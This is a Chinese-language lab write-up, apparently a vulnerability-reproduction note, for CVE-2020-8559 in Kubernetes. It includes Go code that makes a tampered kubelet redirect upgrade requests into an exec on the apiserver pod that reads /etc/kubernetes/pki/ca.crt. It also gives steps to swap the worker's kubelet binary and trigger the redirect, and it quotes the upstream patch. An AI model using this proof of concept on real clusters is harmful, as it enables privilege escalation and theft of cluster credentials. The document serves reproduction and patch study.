

# CVE-2020-8559

## Experiment Environment

```yaml
# three node (two workers) cluster config
kind: Cluster
apiVersion: kind.x-k8s.io/v1alpha4
nodes:
- role: control-plane
  image: kindest/node:v1.15.12@sha256:9dfc13db6d3fd5e5b275f8c4657ee6a62ef9cb405546664f2de2eabcfd6db778
- role: worker
  image: kindest/node:v1.15.12@sha256:9dfc13db6d3fd5e5b275f8c4657ee6a62ef9cb405546664f2de2eabcfd6db778
- role: worker
  image: kindest/node:v1.15.12@sha256:9dfc13db6d3fd5e5b275f8c4657ee6a62ef9cb405546664f2de2eabcfd6db778
```

## Description

http://blog.nsfocus.net/cve-2020-8559/

```go
	protocol := "https"
	host := "172.18.0.3:6443" // apiserver的ip和端口
	namespace := "kube-system"
	pod := "kube-apiserver-kind-control-plane"
	container := "kube-apiserver"
	command1 := "cat"
	command2 := "/etc/kubernetes/pki/ca.crt"

	if strings.Contains(req.URL.Path, "/exec") || strings.Contains(req.URL.Path, "/attach") ||
		strings.Contains(req.URL.Path, "/portforward") {
		fmt.Println("————————————————————–")
		fmt.Println("Sending Redirect")
		fmt.Println("————————————————————–")
		http.Redirect(w, req,
			protocol+"://"+host+"/api/v1/namespaces/"+namespace+"/pods/"+pod+"/exec?command="+
				command1+"&command="+command2+"&container="+container+"&stderr=true&stdout=true",
			302)
	}
```

在kubelet中添加如下重定向代码即可。

如果恶意攻击者获得了一个worker节点的权限，那么他可以更换kubelet，然后重定向，执行任何命令。

任何访问这个恶意worker的请求会被转发到攻击者指定的节点上。

​	

​	攻击者可以通过截取某些发送至节点kubelet的升级请求，通过请求中原有的访问凭据转发请求至其他目标节点，从而造成节点的权限提升漏洞。



## Install & Configuration

## Pocs

```yaml
# 创建两节点集群
kind create cluster --config three-node-1.15.12.yaml
```


```sh
# 修改kubelet源码，然后编译得到文件kubelet
cd kubernetes;
cd pkg/kubelet/server;
# 修改server.go文件，然后编译得到kubelet
# 注意修改时，要正确修改目标pod，apiserver的ip端口和想要的命令。
```


```sh
# 将修改后的kubelet复制到worker节点中
# 替换worker节点中的/usr/bin/kubelet
docker exec -it xxx /bin/bash
cp /usr/bin/kubelet /usr/bin/kubelet.bak
cp -f ~/kubelet /usr/bin/kubelet

# 重启kubelet（kubelet会自动重启，kill操作即可）
ps aux | grep kubelet
kill $pid
```

```sh
# 寻找一个在worker节点上工作的pod
kubectl get pods -A -o wide
# 执行命令
kubectl exec $pod -- hostname
```

## Vulnerability Details & Patch

UpgradeAwareHandler组件对于从kubelet返回的HTTP响应要检查

如果是重定向报文，那么

1、必须重定向到同一个host

2、返回会用户不是30x的报文，返回错误，而不是重定向报文。

补丁的源码：

```go
	// If the backend did not upgrade the request, return an error to the client. If the response was
	// an error, the error is forwarded directly after the connection is hijacked. Otherwise, just
	// return a generic error here.
	if backendHTTPResponse.StatusCode != http.StatusSwitchingProtocols && backendHTTPResponse.StatusCode < 400 {
		err := fmt.Errorf("invalid upgrade response: status code %d", backendHTTPResponse.StatusCode)
		klog.Errorf("Proxy upgrade error: %v", err)
		// 返回的报文是50x
        h.Responder.Error(w, req, err)
		return true
	}
```


## Root cause

